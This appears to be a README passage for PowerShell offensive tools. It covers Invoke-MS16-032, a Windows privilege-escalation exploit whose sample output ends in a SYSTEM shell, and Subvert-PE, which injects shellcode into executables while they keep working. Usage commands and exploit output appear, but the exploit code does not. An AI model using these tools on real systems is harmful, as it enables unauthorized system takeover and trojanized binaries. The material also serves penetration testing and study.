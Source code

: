 PowerShell implementation of MS16-032. The exploit targets all vulnerable operating systems that support PowerShell v2+. Credit for the discovery of the bug and the logic to exploit it go to James Forshaw (@tiraniddo).
    
Targets:

* Win7-Win10 & 2k8-2k12 <== 32/64 bit!
* Tested on x32 Win7, x64 Win8, x64 2k12R2

==> Not tested on Vista with PowerShell v1, let me know what happens if you are able to check this!

```
Sit back and watch the pwn!
C:\PS> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 956

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 964
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

```

### Subvert-PE

Inject shellcode into a PE image while retaining the PE functionality.

For additional information, please refer to:

* FuzzySecurity: [Powershell PE Injection, this is not the Calc you are looking for!](http://www.fuzzysecurity.com/tutorials/20.html)

```
Analyse the PE header and hexdump the region of memory where shellcode would be injected.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe

Same as above but continue to inject shellcode and overwrite the binary.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe -Write
```
